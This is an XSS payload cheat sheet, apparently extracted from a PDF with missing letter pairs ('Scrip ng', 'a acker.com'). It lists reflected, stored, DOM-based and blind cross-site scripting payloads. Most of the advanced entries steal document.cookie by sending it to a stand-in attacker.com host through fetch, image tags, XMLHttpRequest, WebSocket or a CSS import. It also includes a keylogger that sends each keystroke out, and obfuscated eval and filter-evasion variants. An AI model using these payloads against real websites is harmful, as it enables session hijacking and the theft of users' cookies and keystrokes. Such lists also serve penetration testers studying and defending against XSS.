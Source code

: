 **Reflected Cross-Site Scrip ng (XSS)**

1. Basic alert: 
<script>alert('XSS');</script> 
1. Stealing Cookies: 
<script>fetch('h p://a acker.com/log?cookie=' + document.cookie);</script> 
2. Redirec ng the User: 
<script>window.loca on='h p://a acker.com'</script> 
3. Bypassing Filters (using encoded characters): 
<img src=x onerror=alert('XSS')> 
Or encoded version: 
%3Cimg%20src%3Dx%20onerror%3Dalert%281%29%3E 
4. Using an Event Handler: 
<a href="#" onclick="alert('XSS')">Click me!</a> 
5. Advanced Payload (using IIFE): 
<script>(()=>{alert('XSS')})()</script> 

----

**Stored Cross-Site Scrip ng (Stored XSS)** 

1. Simple Alert Box: 
<script>alert('XSS');</script> 
2. Stealing Cookies: 
<script>fetch('h ps://a acker.com/log?cookie=' + document.cookie);</script> 
3. Session Hijacking using Image Tag: 
<img src="x" onerror="fetch('h ps://a acker.com/log?cookie='+document.cookie)"> 
4. Automa c Redirec on 
<script>window.loca on='h ps://a acker.com'</script> 
Advanced Payloads 
1. Bypassing Filters (using JavaScript event handlers): 
<svg onload=alert('XSS')> 
2. Using HTML A ributes: 
<input type="text" value="" onfocus="alert('XSS')" autofocus> 
3. Obfuscated JavaScript: 
<script>eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41))</script> 
4. IIFE (Immediately Invoked Func on Expression): 
<script>(func on(){alert('XSS')})()</script> 

---
**DOM-based Cross-Site Scrip ng (DOM XSS)**
1. URL Parameter Exploita on 
h p://example.com/page.html?name=<script>alert('XSS')</script> 
2. Loca on Hash Manipula on 
h p://example.com/page.html#<img src=x onerror=alert('XSS')> 
3. document.referrer Exploita on 
<a href="h p://example.com/vulnerablePage.html">Go to vulnerable site</a> 
4. Using localStorage 
localStorage.setItem('user', '<img src=x onerror=alert("XSS")>'); 
loca on.reload(); 
5. Bypassing Filters with eval() 
h p://example.com/page.html?data=alert('XSS') 
6. loca on.search with innerHTML 
h p://example.com/page.html?message=<svg/onload=alert('XSS')> 

---

**Basic Blind XSS Payloads **
1. Basic Exfiltra on using <script> 
<script>new Image().src='h ps://a acker.com/log?cookie='+document.cookie;</script> 
2. Using fetch() for Stealth 
<script> 
fetch('h ps://a acker.com/log', { 
method: 'POST', 
mode: 'no-cors', 
body: 'cookie=' + document.cookie + '&url=' + loca on.href 
}); 
</script> 
3. Stealing Data with an img tag 
<img src="h ps://a acker.com/log?data=" + document.cookie> 
Advanced Blind XSS Payloads 
1. Using XMLH pRequest 
<script> 
var xhr = new XMLH pRequest(); 
xhr.open("GET", "h ps://a acker.com/log?cookie=" + document.cookie, true); 
xhr.send(); 
</script> 
2. DOM Exfiltra on with window.onunload 
<body onunload="fetch('h ps://a acker.com/log?cookie=' + document.cookie)"> 
3. Keylogger Payload 
<script> 
document.onkeypress = func on(e) { 
fetch('h ps://a acker.com/keys?key=' + String.fromCharCode(e.which)); 
}; 
</script> 

---

**Obfuscated and Filter Evasion Techniques**
1. Encoded Characters 
<script>eval(String.fromCharCode(102,101,116,99,104,40,39,104,116,116,112,115,58,47,47,
 97,116,116,97,99,107,101,114,46,99,111,109,47,108,111,103,63,99,111,111,107,105,101,61
 ,39,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41));</script> 
2. Bypassing Filters with SVG 
<svg onload="fetch('h ps://a acker.com/log?cookie='+document.cookie)"> 
3. Using setTimeout 
<script>setTimeout(func on(){fetch('h ps://a acker.com/log?cookie='+document.cookie)}, 2000);</script> 

---

**Stealthy Payloads for Non-Script Contexts**
1. Using an HTML Attribute 
<iframe srcdoc="<script>new 
Image().src='https://attacker.com/log?cookie='+document.cookie;</script>"></iframe> 
2. CSS-Based Payload 
<style>@import 'https://attacker.com/log?cookie='+document.cookie;</style> 
3. Exfiltra ng via WebSocket 
<script> 
let ws = new WebSocket("wss://a acker.com/socket"); 
ws.onopen = func on() { 
ws.send(document.cookie); 
}; 
</script>

---
